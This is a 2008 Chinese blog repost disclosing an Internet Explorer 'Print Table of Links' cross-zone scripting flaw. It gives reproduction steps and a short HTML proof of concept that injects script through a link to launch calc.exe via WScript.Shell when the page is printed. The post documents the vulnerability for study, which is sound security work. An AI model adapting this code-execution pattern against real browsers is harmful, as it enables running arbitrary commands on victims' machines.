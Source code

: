 ```yaml
---
title: Aviv Raff的IE 0day-MS IE“Print Table of Links”Cross-Zone Scripting Vulnerability
description: MSInternetExplorer“PrintTableofLinks”Cross-ZoneScriptingVulnerability具体细节:http://aviv.raffon.net/2008/05/14/InternetExplorerQuotPrintTableOfLinksquotCrossZoneScriptingVulnerability.aspx如果启用了“PrintTableofLinks”，在打印一个网页的时候，能够导致执行任意代码，当然VISTA上UAC可以拦截它
date: 2008-05-16 08:47:47
category: 漏洞信息
tags: ['0day', '浏览器', '漏洞信息']
post_id: 483
alias: Aviv-Raff-IE-0day-Print-Table-of-Links
ViewNums: 4664
---
```


[夜火](/blog/)IE[浏览器](/tags/%E6%B5%8F%E8%A7%88%E5%99%A8)的[0day](/tags/0day)漏洞。。。。。。。。。代码比较简单

**MS Internet Explorer “Print Table of Links” Cross-Zone Scripting Vulnerability**
具体细节:http://aviv.raffon.net/2008/05/14/InternetExplorerQuotPrintTableOfLinksquotCrossZoneScriptingVulnerability.aspx

如果启用了 “Print Table of Links”，在打印一个网页的时候，能够导致执行任意代码，当然VISTA上UAC可以拦截它

重现：
1.下面这个地方打上勾
![](http://pic.yupoo.com/sunlei/8644058e7ef9/8tnedwcr.jpg)

2.把下面代码保存成HTML，用IE打开，打印之，calc.exe会弹出。 （也可以直接访问<http://raffon.net/research/ms/ie/print/linksrce.html>）
```html
<html>
<body>
Print me with table of links to execute calc.exe
<a href=”http://www.bla.com?x=b<script defer >var x=new ActiveXObject(’WScript.Shell’);x.Run(’calc.exe’);</script>a.c<u>o</u>m”></a>
<script>window.print();</script>
</body>
</html>
```

这个[漏洞](/tags/%E6%B5%8F%E8%A7%88%E5%99%A8)大牛蛙他们据说当时很快就找出来了，应该也有很多别的同学找到了吧。

From：Sowhat的blog

